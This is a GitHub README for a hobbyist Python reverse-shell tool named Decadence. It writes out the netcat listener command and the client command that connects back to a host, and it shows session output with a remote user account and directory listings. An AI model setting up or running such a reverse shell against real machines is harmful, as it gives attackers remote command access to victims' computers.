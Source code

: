 # Decadence - Python Reverse Shell

So this was one of my earllyyy projects when I was first learning python. 

I decided to come back and fix it up a little bit. 


Essentially, the name says it all. It is a python reverse shell script. 

I've focused this one on providing the functionality client-side. Nothing special yet, just 'cd' but its a good example of what you could implement.  


## Usage

- Step 1 - Set up a listener
- Step 2 - Be silly enough to run this 
- Step 3 - Run it


### Client Side

Simple, pass the arguments! 

```

usage: decadence.py [-h] --host HOST --port PORT
decadence.py: error: the following arguments are required: --host, --port

PS D:\GitHub\decadence> py .\decadence.py --host 127.0.0.1 --port 223

```

I've only tested this with netcat as the listener. 

### Server Side

```
root@#######:~# nc -nvlp 223
Listening on [0.0.0.0] (family 0, port 223)
Connection from xx.xx.xx.xx 52877 received!

connected!   

user account:
desktop\pitticus

decadence> 

```

### Crazy built-in functionality?! 

- cd - That's right, you can change directory
- help - Incase you forget you can change directory
- exit - Because we all want to quit sometimes

```
decadence> cd C:\temp

decadence> dir
 Volume in drive C is Blade SSD
 Volume Serial Number is ####-####

 Directory of C:\temp

02/06/2020  08:26 PM    <DIR>          .     
02/06/2020  08:26 PM    <DIR>          ..    
               0 File(s)              0 bytes
               2 Dir(s)  169,325,039,616 bytes free

decadence>

```

```
decadence> help

        built-in support
--------------------------------
cd - change directory
exit - closes the connection

```

```
decadence> exit
root@vultr:~# 

```

